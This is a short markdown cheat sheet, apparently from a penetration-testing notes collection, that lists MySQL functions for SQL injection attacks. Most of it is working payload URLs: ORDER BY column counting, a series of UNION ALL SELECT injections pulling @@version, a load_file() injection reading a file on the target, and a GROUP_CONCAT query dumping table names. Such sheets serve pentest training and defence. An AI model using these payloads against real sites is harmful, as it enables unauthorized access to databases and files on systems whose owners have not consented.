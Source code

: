 # MySQL Functions
This sheet serves as a list of functions to be leveraged during a successful MySQL SQL injection attack.
## ORDER BY
We can oftent use the SQL statement `ORDER BY` to gather how many columns the current database table has,
```
https://127.0.0.1/comments.php?id=1337 order by N
```
Keep increasing `N` in the above statment until we get an error, or instant HTTP request inthe case of a [Blind SQL Injection Attack](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/Web/SQL%20Injection/sql-injection-blind.md).
## UNION ALL SELECT
The SQL statement `UNION ALL SELECT` can often be used after we get the column count to see which column we can injection nested statements and other data into. For instance, say that after we successfully perfomred an SQL Injection attack and got an `ORDER BY 7`, meaning `7` columns, we can then attempt the following to try to glean the database version by injecting a nested statement into one of the columns,
```
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT @@version,1,1,1,1,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,@@version,1,1,1,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,@@version,1,1,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,1,@@version,1,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,1,1,@@version,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,1,1,1,@@version,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,1,1,1,1,@@version
```
This can easily be automated by scripting the process using `curl`.
## LOAD_FILE()
Once we determine the column count and injectable parameter, we may be able to read files on the target file system using the MySQL `load_file()` function like so,
```
https://127.0.0.1/comments.php?id=1337 union all select 1,2,3,4,load_file("C:\users\username\Desktop\user.txt"),6,7
```
Becareful about how you use single and double quotes. We must know where the file resides on the file system before attmpting to read it. This also assumes that we can inject nested SQL statements on column `5`.
## GROUP CONCAT
Group concatenation of records can be achieved using the `GROUP_CONCAT` stored procedure in MySQL,
```
MariaDB [security]> select group_concat(distinct table_name separator ', ') from information_schema.tables where table_schema = 'security';
+--------------------------------------------------+
| group_concat(distinct table_name separator ', ') |
+--------------------------------------------------+
| emails, referers, uagents, users                 |
+--------------------------------------------------+
1 row in set (0.00 sec)

```
This way, we can acheive all records as a single string for simple SQL injection of a given column.
